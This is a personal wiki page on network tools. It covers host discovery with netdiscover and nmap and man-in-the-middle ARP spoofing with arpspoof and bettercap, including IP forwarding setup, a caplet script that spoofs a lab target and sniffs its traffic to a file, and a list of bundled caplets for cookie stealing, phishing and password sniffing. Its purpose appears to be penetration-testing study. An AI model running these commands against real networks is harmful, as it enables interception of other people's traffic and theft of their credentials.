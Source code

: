 -----

* title: Networking
* description: This article is dedicated to computer networks.
* created: 28-11-2007 00:00:00
* modified: 28-11-2007 00:00:00
* keywords: debian, gnu, linux, operating, system, admin, network, wifi, lan, security, hacking, wireless
* lang: en

-----

# Table of Contents

* [Tools](#tools)
* [Discover the network devices](#discover-the-network-devices)
* [Arp spoofing](#arp-spoofing)
   * [arpspoof](#arpspoof)
   * [bettercap](#bettercap)
      * [Web gui of bettercap](#web-gui-of-bettercap)

# Tools

* `netdiscover` - Discover the devices on your network.
* `nmap` - Discover the devices on your network and get more information 
  than `netdiscover`. 
* `zenmap` - A graphical user interface of `nmap`. 
* `arpspoof` - To spoof ARP (for MITM attacks).
* `bettercaps` - Like `arpspoof` but then more advanced. A framework with 
  more options.

# Discover the network devices

To discover all devices connected to a network, we can make use of the  
`netdiscover` utility. Once run, let it run so it will continue to catch and 
discover interesting hosts that join the netwrok.

    netdiscover -r 192.168.0.1/24

We can also use `nmap` or even use the GUI version of it called `zenmap` 
wich both are more complete.

# Arp spoofing

## arpspoof

This is a MITM (Man In The Middle attack) to redirect all traffic from some 
other client thought another computer, so that all data can be sniffed 
more easyly.

See `arp -a` to have your routing table. Command works on GNU/Linux and Windows.

Note that `arpspoof` is not installed by default on Kali 2021. So install the 
concerned package with `apt-get install dsniff` which include this tool.

**We need to run `arpspoof` twice and let it open.**

    arpspoof -i <interface> -t <client-ip> <gateway-ip>
    # In another shell !!!
    arpspoof -i <interface> -t <gateway-ip> <client-ip> 

We can now verify with `arp -a` and we will see that the mac address of the 
router changed !

Note that the computer isn't a real router, so we need enable port forwarding 
on our Kali box.

    echo 1 > /proc/sys/net/ipv4/ip_forward

** IMPORTANT NOTE: On Kali 2021.1 ip_forwarding doesn't work like expected 
by default, an additional step need to be done.**

Edit the file `/etc/sysctl.conf` and uncomment the following line:

    net.ipv4.ip_forward=1

You could reboot or just use `sysctl -p` so that the changes take immediatly 
effect.

**It is also interesting to know that `Wireshark` detect this kind of 
spoofing.**

See also `bettercap` for more functionalities

## bettercap

`Bettercap` is more powerful than the `arpspoof` program. With `bettercap` 
you can also sniff the data on a friendly way. That mean that you could capture 
network data like website browsing and intercept username and password.

When using the app, you can use the `help` command to get help.

For example to get help on a module:

    help net.snif

You can also use the `tab` key to let the program autocomplete. Also to get 
a full list of command in the "root" of the program.

If you use a lot of time the same command each time you use the program, you 
can make in sort to automate some stuff by creating an external file and 
load it. That file is called a `caplet` file. 
So here's an example of a spoofing script. Create a text file that you for 
example name `spoof.cap` with the following content: 

    net.probe on
    set arp.spoof.fullduplex true
    set arp.spoof.targets 10.0.2.5
    arp.spoof on
    # Next one is optional and only for https downgrading to http. As with 
    # hstshijack MITM attack, all become local 
    ### set net.sniff.local true 
    # Save all captured data into a file
    set net.sniff.output /root/bettercap_capture_file.cap
    net.sniff on

And to make use of our commands:

    bettercap -iface eth0 -caplet spoof.cap

You can also list the default caplets that come with `bettercap` and see 
where they are stored on your system.

    captlets.show

Which will show you a list of caplets you have on your system:

    ┌─────────────────────────────────────┬──────────────────────────────────────────────────────────────────────┬────────┐
    │                Name                 │                                 Path                                 │  Size  │
    ├─────────────────────────────────────┼──────────────────────────────────────────────────────────────────────┼────────┤
    │ ap                                  │ /usr/share/bettercap/caplets/ap.cap                                  │ 570 B  │
    │ crypto-miner/crypto-miner           │ /usr/share/bettercap/caplets/crypto-miner/crypto-miner.cap           │ 666 B  │
    │ download-autopwn/download-autopwn   │ /usr/share/bettercap/caplets/download-autopwn/download-autopwn.cap   │ 2.6 kB │
    │ fb-phish/fb-phish                   │ /usr/share/bettercap/caplets/fb-phish/fb-phish.cap                   │ 140 B  │
    │ gitspoof/gitspoof                   │ /usr/share/bettercap/caplets/gitspoof/gitspoof.cap                   │ 216 B  │
    │ gps                                 │ /usr/share/bettercap/caplets/gps.cap                                 │ 109 B  │
    │ hstshijack/hstshijack               │ /usr/share/bettercap/caplets/hstshijack/hstshijack.cap               │ 841 B  │
    │ hstshijack_ORG/hstshijack           │ /usr/share/bettercap/caplets/hstshijack_ORG/hstshijack.cap           │ 1.2 kB │
    │ http-req-dump/http-req-dump         │ /usr/share/bettercap/caplets/http-req-dump/http-req-dump.cap         │ 591 B  │
    │ http-ui                             │ /usr/share/bettercap/caplets/http-ui.cap                             │ 376 B  │
    │ https-ui                            │ /usr/share/bettercap/caplets/https-ui.cap                            │ 655 B  │
    │ jsinject/jsinject                   │ /usr/share/bettercap/caplets/jsinject/jsinject.cap                   │ 210 B  │
    │ local-sniffer                       │ /usr/share/bettercap/caplets/local-sniffer.cap                       │ 244 B  │
    │ login-manager-abuse/login-man-abuse │ /usr/share/bettercap/caplets/login-manager-abuse/login-man-abuse.cap │ 236 B  │
    │ mana                                │ /usr/share/bettercap/caplets/mana.cap                                │ 61 B   │
    │ massdeauth                          │ /usr/share/bettercap/caplets/massdeauth.cap                          │ 302 B  │
    │ mitm6                               │ /usr/share/bettercap/caplets/mitm6.cap                               │ 551 B  │
    │ mycaplet                            │ /root/mycaplet.cap                                                   │ 125 B  │
    │ netmon                              │ /usr/share/bettercap/caplets/netmon.cap                              │ 42 B   │
    │ pita                                │ /usr/share/bettercap/caplets/pita.cap                                │ 900 B  │
    │ proxy-script-test/proxy-script-test │ /usr/share/bettercap/caplets/proxy-script-test/proxy-script-test.cap │ 57 B   │
    │ pwnagotchi-auto                     │ /usr/share/bettercap/caplets/pwnagotchi-auto.cap                     │ 330 B  │
    │ pwnagotchi-manual                   │ /usr/share/bettercap/caplets/pwnagotchi-manual.cap                   │ 440 B  │
    │ rogue-mysql-server                  │ /usr/share/bettercap/caplets/rogue-mysql-server.cap                  │ 501 B  │
    │ rtfm/rtfm                           │ /usr/share/bettercap/caplets/rtfm/rtfm.cap                           │ 210 B  │
    │ simple-passwords-sniffer            │ /usr/share/bettercap/caplets/simple-passwords-sniffer.cap            │ 131 B  │
    │ steal-cookies/steal-cookies         │ /usr/share/bettercap/caplets/steal-cookies/steal-cookies.cap         │ 134 B  │
    │ tcp-req-dump/tcp-req-dump           │ /usr/share/bettercap/caplets/tcp-req-dump/tcp-req-dump.cap           │ 413 B  │
    │ web-override/web-override           │ /usr/share/bettercap/caplets/web-override/web-override.cap           │ 254 B  │
    └─────────────────────────────────────┴──────────────────────────────────────────────────────────────────────┴────────┘

To run some caplet, just type in it's name.

### Web gui of bettercap

Once bettercap is running, you can type in the console `http-ui`. Note that 
it does make use of the default port `80` so if `apache` or any other 
webserver is running this will fail.

You can then visit http://127.0.0.1:80 and you will see a login screen. The 
default username is `user` and the password is `pass`.
